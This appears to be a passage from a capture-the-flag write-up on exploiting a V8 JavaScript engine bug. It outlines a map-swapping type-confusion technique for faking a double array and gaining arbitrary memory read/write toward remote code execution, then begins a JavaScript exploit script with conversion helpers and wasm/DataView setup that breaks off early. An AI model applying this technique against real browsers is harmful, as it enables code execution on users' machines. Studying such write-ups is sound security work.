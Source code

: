 ### Exploitation

In short, the steps to exploit is:

1. leak the map of a double array : `MapA`
2. leak the map of a var array : `MapB`
3. fake the memory layout of a double array at address `C`
4. modify the map of a var array `arr` to be `MapA`. This makes the js engine treat the var array as double array 
5. `arr[0] = C`. As the the `arr` is now treated as a double array, the address `C` is written as a double. 
6. modify the `map` of `arr` back to `MapB`. 
7. `fake_arr = arr[0]`. As `arr` is changed back to a var array, `C` is treated as an obj pointer instead of a double. We successfully fake a double array. 
8. As we can control the element pointer of the fake double array, we can read or write anywhere we want! With this, we become god.


### Final script
I wrote my script in a short time, so it might not follow exactly the steps above. Additionally, as I exploited it using `wasm obj`, I used the `dataview` obj too. I won't explain them in details as this is only one of the many ways to exploit this challenge. What I want to share with you guys is the **methodology** about how to turn a poc into a more powerful primitive and then achieve `RCE`.

```javascript
function gc() { for (let i = 0; i < 0x10; i++) { new ArrayBuffer(0x1000000); } }
var f64 = new Float64Array(1);
var u32 = new Uint32Array(f64.buffer);

function d2u(v) {
    f64[0] = v;
    return u32;
}

function u2d(lo, hi) {
    u32[0] = lo;
    u32[1] = hi;
    return f64[0];
}

function hex(lo, hi) {
    if( lo == 0 ) {
        return ("0x" + hi.toString(16) + "00000000");
    }
    if( hi == 0 ) {
        return ("0x" + lo.toString(16));
    }
    return ("0x" + ('00000000'+hi.toString(16)).substr(8) +('00000000'+lo.toString(16)).substr(8));
}

gc(); // the function is for the gc stuff. More details can be found at v8 official doc.

let wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 7, 1, 96, 2, 127, 127, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0, 1, 7, 21, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 8, 95, 90, 51, 97, 100, 100, 105, 105, 0, 0, 10, 9, 1, 7, 0, 32, 1, 32, 0, 106, 11]);
let wasm_mod = new WebAssembly.Instance(new WebAssembly.Module(wasm_code), {});
let f = wasm_mod.exports._Z3addii;
let buffer = new ArrayBuffer(0x200);
let dataview = new DataView(buffer);
var obj = {"123":123};
let a = [1.1];
let b = [dataview];
let c = [1.1];
let d = [1.1];

```